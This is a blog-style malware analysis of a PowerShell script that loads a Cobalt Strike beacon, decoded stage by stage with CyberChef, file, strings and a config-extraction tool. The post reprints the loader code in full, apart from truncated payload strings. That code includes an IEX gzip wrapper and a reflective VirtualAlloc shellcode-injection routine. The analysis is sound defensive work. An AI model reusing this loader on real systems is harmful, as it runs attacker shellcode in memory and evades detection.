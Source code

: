 ```yaml
---
title: "Cobalt Strike Beacon Analysis"
categories:
  - Malware Analysis
---
```


Cobalt Strike, which was originally developed as a legitimate security tool used for adversary emulation by Red Teams, has become a double-edged sword in the realm of cybersecurity. Malicous actors have cracked the software, since then it's been abused by adversaries ranging from hacktivists to APTs to fufill their needs. This is article is an analysis of the PowerShell script that leads to execution of a Cobalt Strike beacon.  

## Discovery

I recently discovered this malicious PowerShell script from a [Twitter post by @xorJosh](https://twitter.com/xorJosh/status/1655905247334735878). In his tweet he described an Oracle related service was exploited to download and execute a PowerShell script.

[![1](/assets/images/CobaltStrikeBeaconAnalysis1/1.png)](/assets/images/CobaltStrikeBeaconAnalysis1/1.png){: .full}

The malware sample mentioned can be found on [MalwareBazaar](https://bazaar.abuse.ch/sample/9c9e8841d706406bc23d05589f77eec6f8df6d5e4076bc6a762fdb423bfe8c24/). Lets download this ourselves and have a look!

## Static Analysis (Stage 0)

```ruby
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAA/+y9Wa/qSrIu+rzrV8yHLa21xNo1wBhjjrSla2wwxh09mDqlkjHgBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9ERqSXp+I/lkXmO4UeH0/f/mNzynI/jr4xf/nLuYycAv/GP/7hnop/JFns/MM+HrNTnn/7X3/5t
....QUA"));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

The PS script starts by defining a variable `s` to Base64 decoded binary data. Once we get to the end of the `s` variable, we see the following:

```ruby
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

This Gzip decompresses the variable `s`, and inputs into the StreamReader object. The contents of the StreamReader object are then passed as input into the IEX function, Invoke-Expression, which executes a given PowerShell command or script. From this, we can take a guess that `s` is gzip compressed, PowerShell code? Let's recreate this process of Base64 decoding & Gzip decompressing in CyberChef.

[![2](/assets/images/CobaltStrikeBeaconAnalysis1/2.png)](/assets/images/CobaltStrikeBeaconAnalysis1/2.png){: .full}

We can see that indeed, this was more PowerShell code to be executed. Let's download this locally and analyze this script

## Static Analysis (Stage 1)

```ruby
Set-StrictMode -Version 2

function func_get_proc_address {
  Param ($var_module, $var_procedure)   
  $var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
  $var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
  return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
  Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
    [Parameter(Position = 1)] [Type] $var_return_type = [Void]
  )

  $var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
  $var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
  $var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

  return $var_type_builder.CreateType()
}

If ([IntPtr]::size -eq 8) {
  [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8DIyMja64+ydzc3Guq/Gui4GdHIiPc8GKb05aBdUsnIyMjeWuq2tzzIyMjIyMjIyMj2yMjIy08mS0jlyruApsib+4Cd0tKUANTUUxEUUJOA0BCTU1MVwNBRgNRVk0DSk0DZ2xwA05MR
  ...OP84/')

  for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
  }

  $var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
  $var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
  [System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

  $var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
  $var_runme.Invoke([IntPtr]::Zero)
}

```

The first defined function, `func_get_proc_address()`, basically retrieves the memory address of a specified procedure/function from a specified DLL. We can see this is used here, `$var_var = ... func_get_proc_address kernel32.dll VirtualAlloc), (...`. 

VirtualAlloc is a function of the Win32 API used to allocate a certain region of memory, of the calling process. We can see on the next line the parameters of this function, `$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)` (We'll get onto this `$var_code` variable in a second). Referencing the [documentation](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) on the VirtualAlloc function reveals:

[![3](/assets/images/CobaltStrikeBeaconAnalysis1/3.png)](/assets/images/CobaltStrikeBeaconAnalysis1/3.png){: .full}

We can now match up the corresponding parameters to the Microsoft documentation, but the one I'm most interested in is `flProtect`, which is set to `0x40`. `flProtect` defines the permissions given to an set allocation of memory.

[![4](/assets/images/CobaltStrikeBeaconAnalysis1/4.png)](/assets/images/CobaltStrikeBeaconAnalysis1/4.png){: .full}

We can see `0x40` is equivalent to `PAGE_EXECUTE_READWRITE`, which indicates the allocated memory is more than likely going to be used to execute malicous code.

```ruby
If ([IntPtr]::size -eq 8) {
  [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8DIyMja64+ydzc3Guq/Gui4GdHIiPc8GKb05aBdUsnIyMjeWuq2tzzIyMjIyMjIyMj2yMjIy08mS0jlyruApsib+4Cd0tKUANTUUxEUUJOA0BCTU1MVwNBRgNRVk0DSk0DZ2xwA05MR
  ...OP84/')

  for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
  }
```

Going through this line by line, we first see a conditional statement, `If ([IntPtr]::size -eq 8) {...`. `[IntPtr]::size` is an integer that defines the architecture type. In a 32-bit system this is equal to `4` and in a 64-bit system this is equal to `8`. This first line checks if the program is of a 64-bit architecture, it'll continue executing, otherwise it'll finish.

The next line, `[Byte[]]$var_code = [System.Convert]::FromBase64String('bn...4/')`, Base64 decodes a massive string, and then stores it as a byte array. The for loop that follows this, iterates over each element of this byte array, performing the following operation - `$var_code[$x] = $var_code[$x] -bxor 35`. This just bitwise XORs each element of the array with decimal 35. Interesting

We can make a conclusion here that the string `bnli...P84/` is XOR encrypted & Base64 encoded. Let's recreate this in CyberChef.

[![5](/assets/images/CobaltStrikeBeaconAnalysis1/5.png)](/assets/images/CobaltStrikeBeaconAnalysis1/5.png){: .full}

We can see the recongizable PE DOS header `MZ` identifiying this file as an Windows Executable. Let's download this file locally and move onto Stage 2!

## Static Analysis (Stage 2)

For confirmation, I used the Linux `file` command to verify I'm dealing with an .exe file.

[![6](/assets/images/CobaltStrikeBeaconAnalysis1/6.png)](/assets/images/CobaltStrikeBeaconAnalysis1/6.png){: .full}

Let's run the `strings` command, to see if any we can recover anything interesting.

[![7](/assets/images/CobaltStrikeBeaconAnalysis1/7.png)](/assets/images/CobaltStrikeBeaconAnalysis1/7.png){: .full} 

Interesting, we see `beacon.x64.dll`, certaintly looks dodgy right? [Googling this](https://www.cobaltstrike.com/blog/cobalt-strike-and-yara-can-i-have-your-signature/) reveals this is a common string found in Cobalt Strike beacons. Know we now for sure this a Cobalt Strike beacon, let's try extract the configuration. 

To do this task, I took advanatge of [this](https://github.com/DidierStevens/DidierStevensSuite/blob/master/1768.py) great tool.

[![8](/assets/images/CobaltStrikeBeaconAnalysis1/8.png)](/assets/images/CobaltStrikeBeaconAnalysis1/8.png){: .full} 